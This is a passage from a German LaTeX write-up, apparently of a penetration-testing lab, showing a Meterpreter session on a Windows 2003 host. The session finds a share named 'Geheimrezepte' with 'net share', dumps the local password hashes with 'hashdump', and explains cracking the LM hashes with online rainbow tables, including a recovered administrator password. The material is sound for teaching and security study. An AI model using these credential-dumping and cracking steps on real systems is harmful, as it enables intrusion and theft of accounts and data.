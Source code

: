 Ein alternativer Weg, um in der Meterpreter-Session die Rezepte zu finden, geht über die Auflistung der vorhandenen Freigaben mit dem Windows-Befehl \emph{net use} in einer zuvor mit dem Befehl \emph{shell} geöffneten Windows-Kommandozeile. Daraus kann dann direkt der dahinterliegende Ordner gefunden und seine Inhalte aufgelistet werden... 

\begin{lstlisting}[language=Metasploit]
meterpreter > shell

Process 1760 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32 > net share
net share

Name		Ressource	Beschreibung
-----------------------------------------------------------------------

IPC$    			Remote-IPC
ADMIN$		C:\WINDOWS  	Remoteverwaltung
C$  		C:\		Standardfreigabe
Geheimrezepte  	C:\Geheimrezepte
public		C:\public	Öffentlicher Ordner

Der Befehl wurde erfolgreich ausgefuhrt.

C:\WINDOWS\system32 > exit
meterpreter > ls C:\\Geheimrezepte

\end{lstlisting}

Außerdem kann man sich noch mit dem Befehl \emph{hashdump} die lokale Nutzerdatenbank mit den Passwort-Hashes ausgeben lassen. Die dort von Windows 2003 standardmäßig gespeicherten LM-Hashes lassen sich mit Hilfe von Rainbow-Tables innerhalb von wenigen Sekunden entschlüsseln, z. B. online unter \url{http://www.crack-online.com/}. Als Administrator-Passwort konnte beispielsweise durch das Analysieren-Lassen von\\
\emph{30b56c5a33fbec925395a77c12853f9f:d9147b2c2e2c06320ae8af50bc71d67d}\\
das Passwort \emph{mayermayer\#} ermittelt werden.

\begin{lstlisting}[language=Metasploit]
meterpreter > hashdump

Administrator:
	500:30b56c5a33fbec925395a77c12853f9f:d9147b2c2e2c06320ae8af50bc71d67d:::
Christian:
	1027:814296f64aab50f985ba78ba0ecdceb0:440103c961c4ff0c240f0c5a483e9d2c:::
Daniela:1029:acf52f38f169af6e99be16b12419c012:746bf92e43a6d5af71eef31389c7dac4:::
Gast:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Marcel:1025:ed121d2a2b5ecee9c9e04f959d38ccb0:6ba8c72392ed275d6b9ffb1936f9bb6a:::
Mayer:1028:aaf5ee32cbe91ffdaad3b435b51404ee:68b83446c10ded73a192fed4dbd4cd38:::
Mueller:
	1033:4ed51acf7905e9a9aad3b435b51404ee:56ed5326e548a66a2187da0d5810593b:::
Müller:1034:fb0c033ca6248c12aad3b435b51404ee:6d175e66b077b534bc30280cb0218716:::
Rene:1026:b7731651af6345a825ad3b83fa6627c7:272da8d2ebae0086f417bce3790ce205:::
SUPPORT_388945a0:
	1001:aad3b435b51404eeaad3b435b51404ee:f949ba8fc7dd717fed514fc97e6025a8:::
User0815:
	1023:e52cac67419a9a22417eaf50cfac29c3:60ed35ce39cf0db011f4bdbd19382d72:::
\end{lstlisting}


